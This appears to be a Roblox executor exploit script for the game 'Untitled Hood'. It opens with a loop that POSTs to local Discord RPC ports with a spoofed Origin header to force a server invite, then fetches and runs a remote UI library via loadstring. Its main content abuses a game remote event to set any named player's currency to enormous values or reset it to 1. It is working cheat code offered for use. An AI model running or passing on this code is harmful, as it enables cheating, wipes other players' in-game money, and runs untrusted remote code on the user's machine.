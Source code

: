 local Settings = {
    InviteCode = "kYgYRUHg"
  }
  
  -- Objects
  local HttpService = game:GetService("HttpService")
  local RequestFunction
  
  if syn and syn.request then
    RequestFunction = syn.request
  elseif request then
    RequestFunction = request
  elseif http and http.request then
    RequestFunction = http.request
  elseif http_request then
    RequestFunction = http_request
  end
  
  local DiscordApiUrl = "http://127.0.0.1:%s/rpc?v=1"
  
  -- Start
  if not RequestFunction then
    return print("Your executor does not support http requests.")
  end
  
  for i = 6453, 6464 do
    local DiscordInviteRequest = function()
        local Request = RequestFunction({
            Url = string.format(DiscordApiUrl, tostring(i)),
            Method = "POST",
            Body = HttpService:JSONEncode({
                nonce = HttpService:GenerateGUID(false),
                args = {
                    invite = {code = Settings.InviteCode},
                    code = Settings.InviteCode
                },
                cmd = "INVITE_BROWSER"
            }),
            Headers = {
                ["Origin"] = "https://discord.com",
                ["Content-Type"] = "application/json"
            }
        })
    end
    spawn(DiscordInviteRequest)
  end

  local colors = {
    SchemeColor = Color3.fromRGB(0,255,255),
    Background = Color3.fromRGB(0, 0, 0),
    Header = Color3.fromRGB(0, 0, 0),
    TextColor = Color3.fromRGB(255,255,255),
    ElementColor = Color3.fromRGB(20, 20, 20)
}

local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("Untitled Hood / Dupe Cash", "Sentinel")
local Tab = Window:NewTab("mony")
local Section = Tab:NewSection("the the money giver")






local Workspace = game:GetService("Workspace")
local Players = game.Players.LocalPlayer

local Character = Players.Character




function Buy(Object)
    local Object = Object
    local LockPicker = Workspace.Ignored.Shop[Object]
    Character.HumanoidRootPart.CFrame = LockPicker.Head.CFrame + Vector3.new(0, 3, 0)
    wait(0.5)
    fireclickdetector(LockPicker.ClickDetector)
    fireclickdetector(LockPicker.ClickDetector)
end

Buy("[Revolver] - $1300")

wait(0.5)


wait(0.5)

game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer(
    "Reload",
    {
        Name = "[Revolver]", --// reminder: [Double-Barrel SG] or [Revolver] works for any gun but i put it here so i can just copy and paste whenever i want to
        Parent = Game.Players.LocalPlayer.Backpack,
        ClassName = "Tool",
        Ammo = {Value = math.huge*9e9},
        MaxAmmo = {Value = 0},
        GunScript = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].GunScript,
        Handle = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].Handle
    }
)

wait(2)



_G.Aiden = Players --CHANGE NAME HERE

_G.Amount = 999999999999999999 --probably richest

_G.Amount2 = 7777777777
---

_G.Reset = 1 

Section:NewButton("ez cash", "", function()

game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer(
    "Reload",
    {
         Name = "[Revolver]",
        Parent = Game.Players.LocalPlayer.Backpack,
        ClassName = "Tool",
        Ammo = game:GetService("Players")[_G.Aiden].DataFolder.Currency,
        MaxAmmo = {Value = _G.Amount},
        GunScript = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].GunScript,
        Handle = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].Handle
    }
) 
end)





       
Section:NewButton("delete yo cash", "", function()

game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer(
    "Reload",
    {
        Name = "[Revolver]",
        Parent = Game.Players.LocalPlayer.Backpack,
        ClassName = "Tool",
        Ammo = game:GetService("Players")[_G.Aiden].DataFolder.Currency,
        MaxAmmo = {Value = _G.Reset},
        GunScript = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].GunScript,
        Handle = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].Handle
    }
) 
end)




--game:GetService("Players").BadSnif






Section:NewTextBox("yo cringe ass name", "the guy who receive cash", function(value)
    _G.Aiden = value
end)


local Tab = Window:NewTab("HotKeys")
local Section = Tab:NewSection("HotKeys")
Section:NewKeybind("HotKeys", "KeybindInfo", Enum.KeyCode.Q, function()
    Library:ToggleUI()
end)

local Tab = Window:NewTab("Credits")
local Section = Tab:NewSection("yes.")
Section:NewButton("discord gay link", "no", function()
    setclipboard("https://discord.gg/kYgYRUHg")("Clicked")
end)
